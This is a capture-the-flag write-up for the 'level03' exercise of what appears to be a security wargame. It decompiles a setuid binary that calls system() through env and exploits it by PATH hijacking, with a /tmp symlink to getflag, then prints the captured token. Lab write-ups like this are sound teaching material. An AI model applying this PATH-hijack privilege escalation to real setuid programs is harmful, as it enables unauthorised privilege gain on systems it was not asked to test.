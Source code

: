 # level03

```bash
$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
$ ./level03
Exploit me
```

A quick `hexdump -C` of the `level03` executable shows it contains a string: `/usr/bin/env echo Exploit me`

Further examination with ghidra shows the entire source code:

```C
int main(int argc, char **argv, char **envp)
{
    __gid_t __rgid;
    __uid_t __ruid;
    int iVar1;
    gid_t gid;
    uid_t uid;

    __rgid = getegid();
    __ruid = geteuid();
    setresgid(__rgid,__rgid,__rgid);
    setresuid(__ruid,__ruid,__ruid);
    iVar1 = system("/usr/bin/env echo Exploit me");
    return iVar1;
}
```

We then launch getflag instead of echo by tricking `env` with a symlink and a custom `PATH`:

```bash
ln -s /bin/getflag /tmp/echo
PATH=/tmp ./level03
# -> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
